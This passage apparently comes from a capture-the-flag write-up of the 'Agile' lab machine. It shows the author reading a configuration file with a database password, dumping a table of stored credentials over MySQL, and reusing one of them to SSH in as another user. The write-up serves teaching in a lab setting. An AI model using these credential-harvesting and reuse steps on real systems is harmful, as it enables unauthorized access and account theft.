 

    (venv) www-data@agile:/app$ cat config_prod.json
    {"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}



I'll use that to connect to the database and dump the passwords:



    (venv) www-data@agile:/app$ mysql -u superpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK' superpass
    ...[snip]...
    mysql> select * from passwords;
    +-----+---------------------+---------------------+----------------+----------+----------------------+---------+
    | id  | created_date        | last_updated_data   | url            | username | password             | user_id |
    +-----+---------------------+---------------------+----------------+----------+----------------------+---------+
    |   3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
    |   4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
    |   6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
    |   7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
    |   8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
    | 195 | 2023-01-24 15:52:50 | 2023-01-24 15:52:50 | asdfasdf       | sadfsadf | 378ea0c651fa7964d9b5 |       5 |
    +-----+---------------------+---------------------+----------------+----------+----------------------+---------+
    6 rows in set (0.00 sec)



There's a password for "agile" for the corum user. It works over ssh:



    oxdf@hacky$ sshpass -p '5db7caa1d13cc37c9fc2' ssh corum@superpass.htb
    ...[snip]...
    corum@agile:~$



## Shell as edwards

### Enumeration

#### Web Apps

There's a parallel testing/dev instance of the site in `/app`:



    corum@agile:/app$ ls -l
    total 24
    drwxr-xr-x 5 corum     runner    4096 Jan 23 21:50 app
    drwxr-xr-x 8 runner    runner    4096 Jan 25 17:29 app-testing
    -r--r----- 1 dev_admin www-data    88 Jan 25 00:00 config_prod.json
    -r--r----- 1 dev_admin runner      99 Jan 25 15:15 config_test.json
    -rwxr-xr-x 1 root      runner     557 Jan 25 17:36 test_and_update.sh
    drwxrwxr-x 5 root      dev_admin 4096 Jan 25 17:21 venv
